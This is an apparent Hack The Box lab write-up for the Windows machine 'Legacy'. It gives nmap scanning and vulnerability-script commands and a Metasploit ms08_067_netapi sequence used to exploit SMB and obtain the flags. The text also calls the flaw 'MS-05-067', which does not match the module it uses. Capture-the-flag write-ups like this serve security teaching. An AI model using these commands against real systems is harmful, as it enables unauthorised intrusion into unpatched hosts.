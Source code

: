 # Hack the box - Legacy

<img align="left" src="logo.png">
&nbsp;<span style="color:#b5e853; font-weight: bold">OS: <img align="top" src="../../../images/windows.png"> </span><b>Windows</b>
&nbsp;<span style="color:#b5e853; font-weight: bold">IP: </span><b>10.10.10.4</b>

&nbsp;<span style="color:#b5e853; font-weight: bold">Difficulity: </span><b>Easy</b>
&nbsp;<span style="color:#b5e853; font-weight: bold">Release: </span><b>2017 Mar 15</b>

___

## Port scanning
```
nmap -Pn -sC -sV -T4 -p- -oA nmap 10.10.10.4
```
![Nmap results](./nmap.png)

There is SMB service running on the host with port 445. It could be vulnerable, so let's check for nmap scripts:

```
nmap -p 445 --script vuln 10.10.10.4 -Pn
```

![Nmap vulnerability testing](nmap_vulnerability_testing.png)

Machine is vulnerable to MS-05-067.

## Getting access

Let's use metasploit, since this is most likely to have old vulnerability exploits built in:

```
use exploit/windows/smb/ms08_067_netapi
set rhosts 10.10.10.4
exploit
```

![Metasploit exploitation](exploit.png)

We can see that exploit completed successfully, so we can investigate further for user permission and flags:

![Getting flags](get_flags.png)